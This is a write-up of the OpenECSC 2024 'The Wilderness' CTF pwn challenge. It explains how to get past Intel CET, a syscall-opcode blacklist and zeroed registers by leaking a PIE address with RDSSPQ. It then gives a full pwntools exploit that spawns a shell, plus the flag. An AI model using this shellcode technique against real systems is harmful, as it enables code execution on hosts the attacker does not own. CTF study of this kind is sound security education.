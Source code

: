 ```yaml
---
title: 'OpenECSC 2024 - Round 2'
challenge: 'The Wilderness'
date: 2024-04-29T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the OpenECSC 2024 - Round 2 CTF challenge "The Wilderness"' 
cover: '/img/openECSC/logo.png'
tags: ['pwn']
draft: false
---
```


**tl;dr**

The challenge requires input of our shellcode's bytecode. There are several constraints that increase the difficulty:

- The environment relies on [Intel CET: Control Flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html).
- Forbidden opcodes include traps such as syscall, sysexit, and int80.
- **All** registers are cleared.
- Our shellcode cannot contain `\x00` bytes.
- The shellcode is executed in a memory area that is only readable and executable, thus polymorphic shellcode cannot be used.

## First step

Upon uncompressed, the archive provided by the challenge contains the following files:

```bash
$ tree --filelimit 5
.
├── Dockerfile
├── build
│   └── the_wilderness
├── docker-compose.yml
├── run.sh
└── sde-external-9.33.0-2024-01-07-lin
```

We can observe from ./run.sh that the binary is executed using the [Intel Software Development Emulator (Intel SDE)](https://www.intel.com/content/www/us/en/developer/articles/tool/software-development-emulator.html).

```
#!/bin/sh

echo "[+] starting challenge..."
/home/user/sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- /home/user/build/the_wilderness
echo "[+] challenge stopped"
```

It's worth noting that the flag `-cet` is in use, which indicates the implementation of control flow enforcement technology.

## Environment setup

I made two changes to the files to set up the debug environment:
- Added the flag `-debug` in the *run.sh* file
- Modified the *Dockerfile* to install gdb and [gef extension](https://github.com/hugsy/gef).

## Code review

Shifting our focus to the `get_code` function within the binary, we can observe the following:

- The memory is always mapped at the address `0xdead000`
- Initially, the memory is set as readable and writable with `PROT_READ | PROT_WRITE` (3).

{{< figure src="/img/openECSC/the_wilderness/mmap.png" position="left" caption="0xdead000 mmap" captionPosition="left">}}

- Before execution, the permissions of the mapped area `0xdead000` are changed to `PROT_EXEC | PROT_READ` (5) using *[mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)*.

{{< figure src="/img/openECSC/the_wilderness/mprotect.png" position="left" caption="0xdead000 mprotect" captionPosition="left">}}

- Our input cannot contain the bytecode `\x00`.

{{< figure src="/img/openECSC/the_wilderness/holes.png" position="left" caption="holes check" captionPosition="left">}}

- The input must not include trap instructions such as *syscall*, *sysenter*, or *int80*.

{{< figure src="/img/openECSC/the_wilderness/traps_check.png" position="left" caption="traps check" captionPosition="left">}}

{{< figure src="/img/openECSC/the_wilderness/traps_blacklist.png" position="left" caption="traps blacklist" captionPosition="left">}}

In the `run_code` function, all registers are cleared, including the SIMD registers. Furthermore, before executing the shellcode, even the fs and gs base are zeroed, eliminating any possibility of leaking addresses.
## Divide et impera

### Problem 1: Intel Control Flow Enforcement Technology

Intel Control Flow Enforcement Technology (CET) is a mitigation measure aimed at thwarting techniques like Return-Oriented Programming (ROP) and Jump-Oriented Programming (JOP). Essentially, after a return or a jump, the next expected instruction is an `endbr64`. If this expectation is not met, the subsequent instruction will trigger a segmentation fault.

#### Solution

In this scenario, we have complete control over the instruction that will be executed. Essentially, we need to place `endbr64` at the beginning of our shellcode.

### Problem 2: Traps are forbidden

Traps instructions are prohibited, and the code that checks for this behavior appears to be robust. We are not allowed to use the *syscall*, *sysenter*, or *int80* instructions.

#### Solution

We can exploit the fact that a reference to `syscall` is present in the binary. When `arch_prctl` is called, it will invoke `syscall` from the libc. If we can obtain a leak of the address of the binary, we can then jump to the syscall entry in the PLT (Procedure Linkage Table).

### Problem 3: No leak?

The unsettling aspect of this challenge is that everything is zeroed out. All general-purpose registers and even special ([SIMD](https://en.wikipedia.org/wiki/Single_instruction,_multiple_data)) ones are cleared. Even the base of `fs` and `gs` is set to zero.

#### Solution

To overcome this problem, we need to find an instruction that will cause a leak in the registers. After some searching, I decided to skim through all the instructions of the [x86/x64 architecture](https://www.felixcloutier.com/x86/) architecture. Finally, I came across [RDSSPD/RDSSPQ](https://www.felixcloutier.com/x86/rdsspd:rdsspq). This instruction, when Intel CET shadow stack is enabled, will indeed cause a leak in the specified register.
## Exploit

Here is the full script:

```python
from pwn import *

context.arch = "amd64"

DEBUG = False

if DEBUG:
        import clipboard
        r = remote("127.0.0.1", 1337)
        r.recvuntil("remote ")
        port = r.recvline(keepends=False).decode()
        clipboard.copy(f"attach remote :{port}")
else:
        r = remote("thewilderness.challs.open.ecsc2024.it", 38012)

shellcode = []

# bypass CET
shellcode += ["endbr64"]

# Get a PIE leak

shellcode += ["rdsspq rsp"] # rsp now contains a shadow stack pointer leak
shellcode += ["mov rbx, [rsp]"] # rbx now contains a PIE leak

# prepare arguments to syscall from libc

shellcode += ["xor rdi, rdi"]
shellcode += ["xor rdi, 59"] # execve syscall
shellcode += ["xor rsi, rsi"]
shellcode += ["xor rsi, 0xdead02a"] # address of /bin/sh

# Call plt[syscall]

shellcode += ["sub bx, 0x1563"] # subtract main+63 offset
shellcode += ["add bx, 0x126f"] # offset of plt[syscall]
shellcode += ["call rbx"] # call plt[syscall]

shellcode += ['.ascii "/bin/sh"']

shellcode = asm("\n".join(shellcode))

r.sendlineafter(b"Wilderness?", str(len(shellcode)).encode())
r.sendlineafter(b"Wilderness?", shellcode)

log.info("Got shell ?!")

r.interactive()
```

> openECSC{h3r3_1n_th3_wild3rness_w3_l1ke_h1d1ng_1n_the_sh4dow_64d70520}